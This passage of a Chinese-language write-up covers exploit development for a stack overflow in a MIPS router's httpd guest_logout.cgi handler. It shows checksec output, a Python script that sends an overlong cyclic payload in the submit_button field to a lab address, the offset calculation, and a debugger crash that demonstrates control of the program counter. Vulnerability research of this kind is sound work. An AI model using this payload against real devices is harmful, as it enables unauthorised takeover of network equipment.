 ```c
        "guest_logout_cgi",
        5442,
        v5,
        v10,
        v11);
      fclose(v15);
    }
  }
  return 0;
}
```


### 4. 调试
docker版模拟web无法显示页面，只能通过StatusCode来判断页面是否存在。    

#### 保护措施
```
pwn checksec ./httpd
[*] '/squashfs-root/usr/sbin/httpd'
    Arch:     mips-32-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x400000)
    RWX:      Has RWX segments
```
#### 偏移计算
```python
url = "http://192.168.117.1:8888/guest_logout.cgi"
payload = cyclic(0x100)
data = {
    b"cmac":b"aa:bb:cc:dd:ff:ee",
    b"cip":b"192.168.2.2",
    b"submit_button":b"status_guestnet.asp" + payload
}
req = requests.post(url,data=data)
print(req.status_code)
```

通过cyclic 定位溢出偏移为85.   

```
>>> from pwn import *
>>> cyclic_find('aaaw')
85
```
```bash
pwndbg> c
Continuing.

Program received signal SIGSEGV, Segmentation fault.
0x77616161 in ?? ()
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
─────────────────────────────────────────────────────[ REGISTERS ]──────────────────────────────────────────────────────
*V0   0x0
*V1   0x73
*A0   0x4d81e0 ◂— 0x75746174 ('tatu')
*A1   0x47f785 ◂— 'ogin_guest.asp'
 A2   0x0
*A3   0x0
*T0   0xfd00
*T1   0x77a2f411 ◂— 0x6c5f5f00
*T2   0x77ea3f89 ◂— jalx   0x79957c00
```